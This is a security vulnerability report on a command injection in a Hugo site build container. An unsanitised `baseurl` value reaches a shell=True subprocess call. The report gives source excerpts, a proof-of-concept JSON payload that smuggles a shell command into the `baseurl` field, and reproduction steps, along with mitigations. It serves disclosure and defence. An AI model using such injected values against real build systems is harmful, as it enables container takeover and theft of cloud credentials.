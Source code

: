 ## Combined Vulnerability List

### Command Injection via `baseurl` in Hugo Builds

- **Vulnerability Name:** Command Injection via `baseurl` in Hugo Builds
- **Description:**
    1. An attacker can inject arbitrary commands into the build container by providing a malicious `baseurl` build argument when the site generator is set to `hugo`.
    2. The attacker crafts a malicious JSON payload for the build parameters, setting the `generator` to `hugo` and including a command injection payload within the `baseurl` parameter. For example, the `baseurl` could be set to `\"; touch /tmp/pwned; \"`.
    3. The application parses the parameters and calls the `build()` function in `build.py` with these parameters.
    4. Inside `build()`, the code checks if the `generator` is `hugo`. If so, it calls the `build_hugo()` function.
    5. Within `build_hugo()`, the `baseurl` parameter, without proper sanitization, is incorporated into the `hugo_args` string using an f-string: `hugo_args += f' --baseURL {base_url}'`.
    6. This `hugo_args` string, now containing the injected command, is executed by the `run()` function in `src/runner/__init__.py` using `shell=True` because `node=True` is passed in the call.
    7. The shell interprets the injected command within `baseurl`, executes it, and in this example, creates a file named `pwned` in the `/tmp/` directory of the build container.
- **Impact:**
    - Critical. Successful command injection allows the attacker to execute arbitrary commands within the build container. This grants them full control over the container environment.
    - Potential impacts include:
        - Data exfiltration: Sensitive data within the build container or accessible AWS resources could be stolen.
        - Infrastructure compromise: The attacker could potentially pivot from the build container to compromise other parts of the cloud.gov Pages infrastructure.
        - Denial of Service: The attacker could disrupt the build process or the entire service.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    - None. There is no input sanitization for the `baseurl` parameter before it is used in the Hugo command execution within the `build_hugo` function. While some parameters like `branch`, `owner`, and `repository` are quoted using `shlex.quote()` in `main.py`, `baseurl` is not.
- **Missing Mitigations:**
    - Input sanitization for the `baseurl` parameter is missing. Shell metacharacters within `baseurl` should be escaped or removed before constructing the Hugo command.
    - Alternatively, the code could avoid using `shell=True` when executing Hugo commands. Using the list form of arguments for `subprocess.Popen` would prevent shell interpretation of metacharacters.
- **Preconditions:**
    - The `generator` build argument must be set to `hugo`.
    - The attacker must be able to control the `baseurl` build argument. This is possible by crafting a malicious JSON payload for the `-p` or `-f` options when running the `main.py` script.
- **Source Code Analysis:**
    - File: `/code/src/main.py`
        ```python
        if __name__ == "__main__":
            # ...
            build(**kwargs)
        ```
        - The `main` function in `main.py` parses arguments and calls the `build` function in `build.py`. The `baseurl` parameter from user input is passed directly to the `build` function as part of `kwargs`.
    - File: `/code/src/build.py`
        ```python
        def build(
            # ...
            baseurl,
            generator,
            # ...
        ):
            # ...
            if generator == 'hugo':
                run_step(
                    build_hugo,
                    'There was a problem running Hugo, see the above logs for details.',
                    branch, owner, repository, site_prefix, baseurl, decrypted_uevs,
                )
            # ...

        def build_hugo(branch, owner, repository, site_prefix,
                   base_url='', user_env_vars=[]):
            # ...
            hugo_args = f'--source {CLONE_DIR_PATH} --destination {SITE_BUILD_DIR_PATH}'
            if base_url:
                hugo_args += f' --baseURL {base_url}'

            env = build_env(branch, owner, repository, site_prefix, base_url, user_env_vars)
            run(logger, f'{HUGO_BIN_PATH} {hugo_args}', cwd=CLONE_DIR_PATH, env=env, node=True)
        ```
        - The `build` function calls `build_hugo` when the generator is `hugo`.
        - In `build_hugo`, the `baseurl` parameter is directly embedded into the `hugo_args` string using an f-string without any sanitization.
        - The `run` function is called with `node=True`, which leads to `shell=True` execution.
    - File: `/code/src/runner/__init__.py`
        ```python
        def run(logger, command, cwd=None, env=None, shell=False, check=True, node=False, ruby=False, skip_log=False):  # noqa: E501
            # ...
            if ruby:
                command = f'source {RVM_PATH} && {command}'
                shell = True

            if node:
                command = f'source {NVM_PATH} && {command}'
                shell = True
            # ...
            p = subprocess.Popen(  # nosec
                command,
                cwd=cwd,
                env=env,
                shell=shell,
                executable=executable,
                stderr=subprocess.STDOUT,
                stdout=subprocess.PIPE,
                bufsize=1,
                encoding='utf-8',
                text=True,
                preexec_fn=setuser
            )
            # ...
        ```
        - The `run` function executes commands using `subprocess.Popen` with `shell=True` if `node=True` or `ruby=True`. This allows shell command injection if the `command` string is not properly sanitized.
- **Security Test Case:**
    1. Create a file named `exploit.json` in the `.local` directory (or any `/tmp/local` mounted directory if running with docker-compose) with the following JSON content:
        ```json
        {
          "aws_access_key_id": "dummy",
          "aws_secret_access_key": "dummy",
          "aws_default_region": "us-gov-west-1",
          "bucket": "dummy",
          "status_callback": "http://localhost:8989/status",
          "generator": "hugo",
          "owner": "cloud-gov",
          "repository": "pages-build-container",
          "branch": "main",
          "site_prefix": "test-site",
          "baseurl": "\"; touch /tmp/pwned; \""
        }
        ```
    2. Run the build container using docker-compose with the malicious JSON file as input:
        ```bash
        docker-compose run --rm app python main.py -f /tmp/local/exploit.json
        ```
    3. After the build container finishes (it might fail, but that's expected), access the shell of the running `app` container to verify command execution:
        ```bash
        docker-compose run --rm app bash
        ```
    4. Inside the container's shell, check if the file `/tmp/pwned` exists:
        ```bash
        ls /tmp/pwned
        ```
        - If a file named `pwned` is listed in `/tmp/`, it confirms that the command injection vulnerability via the `baseurl` parameter in Hugo builds is present.